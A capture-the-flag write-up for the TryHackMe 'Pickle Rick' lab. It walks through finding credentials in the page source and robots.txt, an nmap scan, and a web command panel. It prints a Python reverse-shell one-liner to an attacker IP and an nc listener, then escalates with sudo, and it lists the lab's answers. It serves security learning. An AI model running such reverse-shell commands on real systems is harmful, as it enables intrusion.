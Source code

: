 # Pickle Rick

December 22, 2023 

----------------------------

```
Username: R1ckRul3s

view-source:http://10.10.98.98/ 
```

```
Wubbalubbadubdub

http://10.10.98.98/robots.txt
```

```
nmap -sC -sV -oN nmap-initial 10.10.98.98
Starting Nmap 7.93 ( https://nmap.org ) at 2023-12-22 23:33 PST
Nmap scan report for 10.10.98.98
Host is up (0.29s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.6 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 c92a0c28fddb026c9e1c0fe4ca784513 (RSA)
|   256 cbdd3d436888dc42ecf4754f1e11dc7e (ECDSA)
|_  256 5b991475177e89d94a3fa2025021f980 (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Rick is sup4r cool
|_http-server-header: Apache/2.4.18 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 62.09 seconds
```

```
python3 -c 'import socket,os,pty;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.9.135.209",7777));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);pty.spawn("/bin/sh")'
```	

------------------------------

- What is the first ingredient that Rick needs?
	- `mr. meeseek hair`

- What is the second ingredient in Rick’s potion?
	- `1 jerry tear`

- What is the last and final ingredient?
	- `fleeb juice`


<details>
Steps:
If you visit the source page of the website / 

![image](https://github.com/kyou00/tryhackme-writeups/assets/92074685/091d7e9e-cd17-4085-a900-afbb4a35ba87)

you will see a username that we can use later on

as we use the gobuster we can see there is a asset page in the website

![image](https://github.com/kyou00/tryhackme-writeups/assets/92074685/f8051952-8613-4c36-9349-b664d1242052)

then we can see bunch of files in the assets page but there is a png that stands the most which is the portal

![image](https://github.com/kyou00/tryhackme-writeups/assets/92074685/2ee3f180-59da-4112-ad59-7cf433474138)

as i think for a second that this image was being used somewhere in the website just different directory

well after few navigations to the website i used the portal keyword and add a .php extension to it

![image](https://github.com/kyou00/tryhackme-writeups/assets/92074685/0a220447-e3fb-4b0d-87f9-53221ec6399c)

we know the username but we do not know the password 

so after i navigate to /robots.txt in the website i can see some words in there

![image](https://github.com/kyou00/tryhackme-writeups/assets/92074685/5e26c7c3-2b3f-4e5b-957f-316947ef3215)

So i tried using the username R1ckRul3s and Wubbalubbadubdub as password in the /portal.php

and it is a success

![image](https://github.com/kyou00/tryhackme-writeups/assets/92074685/03be194c-447c-48b3-b222-ba5e2eec6fe2)

first we can check for a few commands that we can use in the command panel

![image](https://github.com/kyou00/tryhackme-writeups/assets/92074685/a51b70eb-5eb9-49e6-9b49-e9c14b91af32)

then we can check for python 3 

![image](https://github.com/kyou00/tryhackme-writeups/assets/92074685/fb9030f0-29d0-4ab8-93ec-9367243ecf7e)

as we have python 3 in the command line we can use this to have a reverse shell to the server

```
python3 -c 'import socket,os,pty;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.9.135.209",7777));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);pty.spawn("/bin/sh")'
```

then we need to listen in our attacker machine

```
nc -lnvp 7777
```

![image](https://github.com/kyou00/tryhackme-writeups/assets/92074685/cb6672db-ce8a-4624-8020-6a0c89dcceac)

we can use sudo -l to see some privilege

```
sudo -l
```

then sudo su if we can 

![image](https://github.com/kyou00/tryhackme-writeups/assets/92074685/651e1a7b-a99b-45a1-9c6f-941284eccb9e)

now we own the box 
</details>
